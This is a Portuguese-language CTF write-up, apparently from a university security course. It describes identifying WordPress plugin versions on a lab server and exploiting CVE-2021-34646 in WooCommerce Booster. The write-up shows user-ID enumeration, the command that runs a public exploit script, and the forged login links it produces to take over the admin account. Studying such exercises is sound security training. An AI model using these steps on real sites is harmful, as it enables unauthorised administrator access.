 # CTF 1 

## Primeira parte

Ao aceder à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress, começamos por inferir todas as dependências do site. Através de uma pesquisa mais cuidada, tanto pela navegação nos diversos links como pelo código-fonte do mesmo, acabamos por descobrir as seguintes dependências:

- Wordpress 5.8.2
- Plugin Woocommerce Booster 5.4.3
- Tema Storefront na versão 3.9.1

Depois investigamos em bases de dados de CVEs vulnerabilidades associadas a cada plugin e cada versão, com principal incidência nas que permitissem fazer login como outro utilizador. A CVE-2021-34646 do WooCommerce 5.4.3 pareceu-nos adequada, e ao usarmos a `flag[CVE-2021-34646]` ultrapassamos a primeira parte do desafio.

## Segunda parte

Descoberta a vulnerabilidade da versão 5.4.3 do plugin WooCommerce, catalogada e disponível [aqui](https://www.exploit-db.com/exploits/50299), tivemos acesso a passos detalhados que permitiam explorá-la. A primeira tarefa foi aceder a `https://target.com/wp-json/wp/v2/users/` de forma a encontrarmos IDs de administradores. Após descoberta do ID=1, que é normalmente usado por utilizadores de acessos privilegiados, também tivemos acesso a um script em Python que usava esse mesmo identificador para atacar o site: 

````bash
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````

De forma simplista, o ataque consiste em formar um link de validação de login com uma chave codificada em Base 64 através do timestamp atual. Como resultado obtivemos alguns links:

````
Timestamp: Fri, 07 Oct 2022 10:32:54 GMT
Timestamp (unix): 1665138774

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash b8f64a0ef997c812589538daf4778731:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiYjhmNjRhMGVmOTk3YzgxMjU4OTUzOGRhZjQ3Nzg3MzEifQ

#1 link for hash 7bab6c3f87bb43a8700395f17fba953b:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2JhYjZjM2Y4N2JiNDNhODcwMDM5NWYxN2ZiYTk1M2IifQ

#2 link for hash 92b66b0659b9b9e339d4afe1c09dee10:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiOTJiNjZiMDY1OWI5YjllMzM5ZDRhZmUxYzA5ZGVlMTAifQ
````

Aceder a um dos três resultados obtidos permitiu-nos fazer login na conta do administrador do site. Bastou seguir as indicações do guião do CTF para acedermos também à página **http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php**. No post privado estava escrita a flag final do desafio, `flag{please don't bother me}`.